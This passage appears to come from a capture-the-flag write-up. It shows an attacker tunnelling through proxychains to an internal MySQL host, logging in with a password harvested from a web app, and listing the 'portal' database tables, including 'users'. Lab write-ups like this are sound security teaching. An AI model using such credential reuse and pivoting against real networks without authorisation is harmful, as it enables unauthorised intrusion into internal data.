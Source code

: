 It’s not clear what’s going on, but I’ll come back to it if I’m stuck.

#### 172.17.0.3 - mysql

This host was open on 3306 and 33060. These are likely both MySQL instances.

I’ll connect to the first using the creds from portal:

```

oxdf@hacky$ proxychains mysql -h 172.17.0.3 -u portaldb -pJ5tnqsXpyzkK4XNt 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
mysql: [Warning] Using a password on the command line interface can be insecure.
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.17.0.3:3306  ...  OK
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 752
Server version: 8.0.27 MySQL Community Server - GPL

Copyright (c) 2000, 2022, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>

```

The only DB is `portal`:

```

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| portal             |
+--------------------+
2 rows in set (0.09 sec)

```

It has a few tables:

```

mysql> use portal
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+------------------+
| Tables_in_portal |
+------------------+
| bike_list        |
| brand_list       |
| categories       |
| file_list        |
| rent_list        |
| system_info      |
| users            |
+------------------+
```